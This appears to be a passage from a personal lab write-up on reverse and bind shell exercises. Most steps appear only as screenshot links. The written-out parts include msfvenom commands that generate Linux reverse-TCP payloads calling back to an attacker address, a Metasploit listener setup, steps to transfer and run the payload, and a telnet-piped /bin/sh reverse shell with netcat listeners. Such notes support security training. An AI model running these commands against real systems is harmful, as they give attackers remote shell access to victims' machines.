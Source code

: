 	reverse shell using special command(with pipes):
	![[Pasted image 20240820194307.png]]
	![[Pasted image 20240820194336.png]]

3) **Reverse and bind shells using Socat on the Linux machine.**
	 ![[Pasted image 20240820200847.png]]
	![[Pasted image 20240820200922.png]]

	using special command (fully stable Linux tty reverse shell)
	![[Pasted image 20240820203805.png]]
	![[Pasted image 20240820203824.png]]


4) **Look through [Payloads all the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md) and try some of the other reverse shell techniques.**
   
	 ### **Linux Staged reverse TCP**
	`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf`

	 **Linux Stageless reverse TCP**
	`msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf >reverse.elf`

	generating the `linux` reverse shell msfvenom payload
	![[Pasted image 20240820231832.png]]

	generating multi/handler exploit serving as a listener using msfconsole ->
	 - set `payload/linux/x86/meterpreter/reverse_tcp` !!!
	![[Pasted image 20240820232015.png]]
	

	transfering the payload file to the target machine:
	![[Pasted image 20240820232346.png]]
	![[Pasted image 20240820232438.png]]

	searching for the exploit file
	![[Pasted image 20240820234148.png]]

	changing permission and run the exploit file 
	`sudo chmod +x /path/to/reverse.elf`  --> `./reverse.elf`
	

	 **Telnet**
	In Attacker machine start two listeners: 
	- nc -nvlp 8080
	- nc -nvlp 8081 
  
	In Victime machine run below command: 
	- telnet <Your_IP> 8080 | /bin/sh | telnet <Your_IP> 8081

5) **Upload a webshell on the Windows target and try to obtain a reverse shell using Powershell.**
	![[Pasted image 20240821010756.png]]
	